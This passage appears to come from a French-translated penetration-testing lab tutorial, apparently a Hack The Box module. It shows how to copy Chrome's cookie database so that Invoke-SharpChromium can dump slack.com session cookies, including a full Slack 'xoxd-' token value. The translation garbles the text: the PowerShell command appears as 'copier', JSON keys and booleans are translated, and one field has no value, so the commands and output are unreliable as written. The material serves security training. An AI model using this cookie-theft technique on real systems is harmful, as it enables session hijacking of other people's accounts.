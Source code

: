 `SharpChromium` recherche un fichier dans `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Cookies`, mais le fichier réel se trouve dans `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network\Cookies` avec la commande suivante, nous copierons le fichier à l'emplacement attendu par SharpChromium.

#### Copier les cookies vers l'emplacement attendu de SharpChromium

Copier les cookies vers l'emplacement attendu de SharpChromium

```
PS C:\htb> copier "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"

```

Nous pouvons maintenant utiliser à nouveau Invoke-SharpChromium pour obtenir une liste de cookies au format JSON.

#### Extraction des cookies Invoke-SharpChromium

Extraction de cookies Invoke-SharpChromium

```
PS C:\htb> Invoke-SharpChromium -Command "cookies slack.com"

[*] Début de l'extraction de Google Chrome.

--- Cookie Chrome (Utilisateur : lab_admin) ---
Domaine : slack.com
Cookies (JSON) :
[

<SNIP>

{
     "domain": ".slack.com",
     "date d'expiration": 1974643257.67155,
     "hostOnly": faux,
     "httpOnly": vrai,
     "nommé",
     "chemin": "/",
     "sameSite": "laxiste",
     "sécurisé": vrai,
     "session": faux,
     "storeId": nul,
     "valeur": "xoxd-5KK4K2RK2ZLs2sISUEBGUTxLO0dRD8y1wr0Mvst%2Bm7Vy24yiEC3NnxQra8uw6IYh2Q9prDawms%2FG72og092YE0URsfXzxHizC2OAGyzmIzh2j1JoMZNdoOaI9DpJ1Dlq rv8rORsOorRW4hnygmdR59w9Kl%2BLzXQshYIM4hJZgPktT0WOrXV83hNetYg%3D%3D"
},
{
     "domain": ".slack.com",
     "hostOnly": faux,
     "httpOnly": vrai,
     "nom": "d-s",
     "chemin": "/",
     "sameSite": "laxiste",
     "sécurisé": vrai,
     "session": vrai,
     "storeId": nul,
     "valeur": "1659023172"
},

<SNIP>

]

```